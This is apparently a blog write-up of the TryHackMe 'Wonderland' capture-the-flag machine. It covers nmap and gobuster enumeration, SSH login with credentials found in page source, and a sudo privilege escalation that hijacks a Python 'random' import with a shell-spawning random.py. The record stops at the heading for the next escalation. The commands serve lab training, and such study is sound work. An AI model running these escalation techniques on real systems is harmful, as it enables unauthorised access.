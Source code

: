 ```yaml
---
layout: post
title: tryhackme wonderland write up
---
```



![wonderland](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/wonder/wonderland.jpeg)

### about the machine
this is a medium rated machine from wonderland series, which happens to be the first series I try to get root on

### Reconnaissance

first thing I did is adding the box's ip to my hosts file
```bash
echo "10.10.114.141 ctf.thm" | sudo tee -a /etc/hosts
```
running a quick nmap scan on the machine tells me that there are 2 running services on the box 

```bash
# Nmap 7.60SVN scan initiated Fri Jan  1 22:47:40 2021 as: nmap -v -oN ports ctf.thm
Nmap scan report for ctf.thm (10.10.114.141)
Host is up (0.39s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/local/bin/../share/nmap
# Nmap done at Fri Jan  1 22:51:48 2021 -- 1 IP address (1 host up) scanned in 247.56 seconds
```

so I ran a detailed scan on those 2 ports 
```bash
# Nmap 7.60SVN scan initiated Fri Jan  1 22:53:05 2021 as: nmap -v -p 80,22 -sC -sV -oN detailed_scan ctf.thm
Nmap scan report for ctf.thm (10.10.114.141)
Host is up (0.57s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan  1 22:53:34 2021 -- 1 IP address (1 host up) scanned in 28.59 seconds
```
nothing out of the ordinary here, and the ssh version seems to be secure

usally when I find an authentication service running on these types of CTFs I run nmap with bruteforce nse scripts in the background to get the root password, or as soon as I get a potentiel user, sometimes it works, this time it didn't

running a full ports scan with nmap doesn't give any interesting results


### http service enumeation

we have a static page without any usefull information, or so I thought, because as it will turn out later, it has the first flag
![index_page](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/wonder/index_page.png)

the next thing I did was running a directory-bruteforce which revealed 3 directories
```bash
$ gobuster dir -u ctf.thm -w  $WORDLISTS/raft-small-directories-lowercase.txt -t 30
/img (Status: 301)
/r (Status: 301)
/poem (Status: 301)
```
`/img` didn't had anything useful for us

`/poem` had the following a poem written on it, as useful as /img was

but the `/r` directory had a quote on it that encouraged me to keep searching for subdirectories there

![r_directory](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/wonder/r_directory.png)

the name 'r' seemed a bit strange to me since it was a one-letter directory, so to make the bruteforce process quicker I made a wordlist that contains only single letters and used it to bruteforce other directories under `ctf.thm` and subdirectories under `ctf.thm/r/` and it worked

```bash
$ for i in {a..z}; do echo $i >> word; done
$ for i in {A..Z}; do echo $i >> word; done
$ gobuster dir -u http://10.10.114.141/r/ -w word
/a (Status: 301)
```
at this point I knew there was a `ctf.thm/r/a/b/b/i/t` path, and with each letter I got a static pages telling me I was on the right path with no additional info, except for the last page which had a picture hinting there is something hidden in there

![hidden creds](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/wonder/something_hidden.png)

examining the source code showed what appeared to be the ssh credentiels for the user `alice`

![ssh creds](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/wonder/creds.png)

### I'm in

once I got on the box, I found a file called `root.txt` which has the final flag we have to find, this seemed a bit weird since I haven't found the `user.txt` flag yet.

I also found a python script that has the same poem we saw earlier on the website, sliced up to 10 parts. and script functionality was tp print a random part from them, oh and it also included the library `random`

```python
import random
poem = """The sun was shining on the sea,
Shining with all his might:
OTHER PARTS OF THE POEM

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
...

```

I found after doing some enumeration I found a that I can execute the script as another user, we can't edit it thought

```bash
$ ssh alice@10.10.213.60
The authenticity of host '10.10.213.60 (10.10.213.60)' can't be established.
ECDSA key fingerprint is 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.213.60' (ECDSA) to the list of known hosts.
alice@10.10.213.60's password: 

$ alice@wonderland:~$ ls -lha
total 40K
drwxr-xr-x 5 alice alice 4.0K May 25  2020 .
drwxr-xr-x 6 root  root  4.0K May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3.7K May 25  2020 .bashrc
drwx------ 2 alice alice 4.0K May 25  2020 .cache
drwx------ 3 alice alice 4.0K May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4.0K May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3.5K May 25  2020 walrus_and_the_carpenter.py
$ alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
$ alice@wonderland:~$ uname -a
Linux wonderland 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

looking up the kernel version led me to try CVE-018-18955 on the box, which kind of gave me a "root prompt" but without any special priveleges, and I have no clue why

# I'll take care of this part later

I took a moment to find the `user.txt` flag, I ran couple `find` commands but nothing came up, I started running out of ideas till I viewed the hint on the website

![upside down](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/wonder/upside_down.png)

I went to check the root directory and surprise surprise, we have execute permissions. this means we can't list the files on `/root` but we can run commands or read files from there as long as we know the files names, lucky for me, tryhackme tells me to `Obtain the flag in user.txt`

```bash
alice@wonderland:~$ ls -lhd /root
drwx--x--x 4 root root 4.0K May 25  2020 /root
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ cat /root/user.txt
thm{"REDACTED FLAG"}
alice@wonderland:~$
```
### escalating to rabbit

examining `/etc/shadows` tells me that there 4 regular users on the box

```bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```
I already know I can execute a script as the user `rabbit` but didn't know that to do with that information, and with of lot of time passed doing other enumerations and I decided to peak at a write up, but hey let's keep that between me and you

doing so I've learned 2 new things
<li>
    <ol> you can execute commands as another user using `sudo -u USER COMMAND`</ol>
    <ol> python tries to find imported libraries in the current working directory before looking for them somewhere else, knowing this we can make a malicious `random.py` to elevate priveleges </ol>
</li>

of course, it's so obvious, *if* I had known those info before

```bash
alice@wonderland:~$ echo 'import pty;pty.spawn("/bin/bash")' > random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
[sudo] password for alice: 
rabbit@wonderland:~$ whoami
rabbit
rabbit@wonderland:~$
```

### escalating to hatter
